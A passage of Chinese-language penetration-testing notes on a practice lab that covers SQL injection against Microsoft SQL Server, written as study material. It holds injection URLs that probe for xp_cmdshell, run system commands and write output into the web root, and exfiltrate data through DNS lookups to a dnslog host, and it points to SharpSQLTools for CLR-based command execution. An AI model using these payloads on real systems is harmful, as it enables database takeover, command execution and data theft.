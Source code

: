  id=1' and 1=(select count(*) from master.sys.sysobjects where name='xp_cmdshell')--+

  ​![image](assets/image-20240906200752-qps2gqi.png)​

### xp_cmdshell+重定向

http://192.168.100.226/less-2.asp?id=1;exec master.sys.xp_cmdshell 'whoami > c:\inetpub\wwwroot\zhang.txt'--+

​![image](assets/image-20240906164015-2krvrl7.png)​

### xp_cmdshell+DNS数据外带

http://192.168.100.226/less-1.asp?id=1';exec master.sys.xp_cmdshell 'ping -n 1 test.68ebfe53.log.dnslog.biz.'--+

​![image](assets/image-20240906164732-0rccirs.png)​

## 本地存储过程

本地存储过程指用户创建的自定义存储过程。如：CLR  
<span data-type="text" style="color: var(--b3-font-color8);">CLR,公共语言基础结构(Common Language Infrastructure)</span>,用来支持不同编程语言。sql server集成了该组件，可以通过sql server编写CLR来执行系统命令。  
此处本地新建存储过程相对复杂，直接利用工具SharpSQLTools进行实现。SharpSQLTools可实现上传下载文件，<span data-type="text" style="color: var(--b3-font-color8);">p_cmdshell与sp_oacreate双回显和clr加载程序集执行相应操作。</span>
